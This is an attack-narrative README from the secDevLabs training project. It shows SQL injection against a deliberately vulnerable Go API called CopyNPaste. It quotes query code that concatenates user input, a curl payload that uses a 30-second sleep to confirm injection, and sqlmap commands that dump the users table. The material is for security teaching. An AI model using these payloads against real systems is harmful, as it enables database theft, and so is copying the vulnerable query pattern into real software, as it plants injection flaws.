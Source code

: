 # Attack Narrative - CopyNPaste API (Injection)

The main goal of this documentation is to describe how a malicious user could exploit an Injection vulnerability intentionally intalled on CopyNPaster API from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a1/copy-n-paste) yet, you should check them before reading this narrative. 

----

## 👀

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)) file, it was possibile to see that some input from users are concatenated with SQL queries, as shown in the following codes: 

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is present to these variables, SQL injections may be successfuly executed in the database. To confirm this, the following payload could be used that, if the application is indeed vulnerable, a 30 seconds delay will be noted after sending it:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:3000/login 
```

Request:
<img src="attack-1.png" align="center"/>

30 seconds later: 
<img src="attack-2.png" align="center"/>

## 🔥

An attacker could now create any malicious SQL queries and send to the API that, in theory, will be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed. 

To install sqlmap on Mac you can simply type:

```sh
brew install sqlmap
```

First possible step is to create a `postRequest.txt` containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31
{"user":"user", "pass":"password"}
```

Then we could use `-r` option and wait sqlmap perform multiples malicious requests until it finds the vulnerable parameter:

```sh
$ sqlmap -r postRequest.txt
```

<img src="attack-3.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve sensitive information from the it:

```sh
$ sqlmap -r postRequest.txt -D webpage -T users --dump
```

<img src="attack-4.png" align="center"/>